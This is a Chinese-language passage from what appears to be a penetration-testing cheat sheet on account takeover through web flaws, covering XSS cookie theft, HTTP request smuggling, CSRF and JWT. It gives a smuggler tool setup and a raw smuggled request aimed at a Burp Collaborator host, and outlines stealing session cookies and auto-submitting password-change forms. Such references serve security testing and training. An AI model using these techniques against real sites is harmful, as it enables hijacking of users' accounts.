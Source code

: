 ## 通过Web漏洞进行账户接管

### 通过跨站脚本进行账户接管

1. 在应用程序或子域中查找XSS漏洞，如果cookie作用域为父域：`*.domain.com`
2. 泄露当前**会话cookie**
3. 使用该cookie以用户身份进行身份验证

### 通过HTTP请求走私进行账户接管

参考**HTTP请求走私**漏洞页面。

1. 使用**smuggler**检测HTTP请求走私类型（CL、TE、CL.TE）

    ```powershell
    git clone https://github.com/defparam/smuggler.git
    cd smuggler
    python3 smuggler.py -h
    ```

2. 制作一个请求，用以下数据覆盖`POST / HTTP/1.1`：

    ```powershell
    GET http://something.burpcollaborator.net  HTTP/1.1
    X: 
    ```

3. 最终请求可能如下所示

    ```powershell
    GET /  HTTP/1.1
    Transfer-Encoding: chunked
    Host: something.com
    User-Agent: Smuggler/v1.0
    Content-Length: 83

    0

    GET http://something.burpcollaborator.net  HTTP/1.1
    X: X
    ```

利用此漏洞的Hackerone报告

* <https://hackerone.com/reports/737140>
* <https://hackerone.com/reports/771666>

### 通过CSRF进行账户接管

1. 为CSRF创建有效负载，例如："带有自动提交的HTML表单，用于更改密码"
2. 发送有效负载

### 通过JWT进行账户接管

JSON Web Token可能用于验证用户身份。
